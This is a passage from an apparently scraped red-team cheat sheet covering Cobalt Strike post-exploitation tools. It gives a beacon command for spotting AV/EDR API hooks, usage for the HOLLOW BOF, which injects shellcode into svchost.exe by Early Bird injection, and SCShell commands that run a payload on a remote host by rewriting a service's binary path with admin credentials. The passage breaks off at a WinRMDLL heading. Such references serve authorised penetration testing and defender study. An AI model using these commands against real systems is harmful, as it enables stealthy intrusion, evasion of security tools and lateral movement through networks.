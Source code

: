 Identify active AV/EDR hooks in memory.



`beacon> detect-hooks # Output will list API hooks or indicate none were detected.`

# HOLLOW Cheat Sheet

## Overview

HOLLOW is a BOF for Cobalt Strike that performs Early Bird injection to execute shellcode in a remote process.

## Authors

- Bobby Cooke (@0xBoku)
- Justin Hamilton (@JTHam0)
- Octavio Paguaga (@OakTree__)
- Matt Kingstone (@n00bRage)

## Usage

1. Compile using MinGW.
2. Import `hollow.cna` into Cobalt Strike.
3. Run `hollow` with appropriate paths.

## Command Example



`beacon> hollow svchost.exe /path/to/shellcode.bin`

# SCShell Cheat Sheet

## Overview

SCShell modifies service binary paths to execute commands without dropping files or creating new services, leveraging ChangeServiceConfigA.

## Usage



`SCShell.exe <target> <service> <payload> <domain> <username> <password>`

## Example



`SCShell.exe 192.168.1.100 XblAuthManager "cmd.exe /c path\to\payload.exe" . admin pass`

# WinRMDLL Cheat Sheet

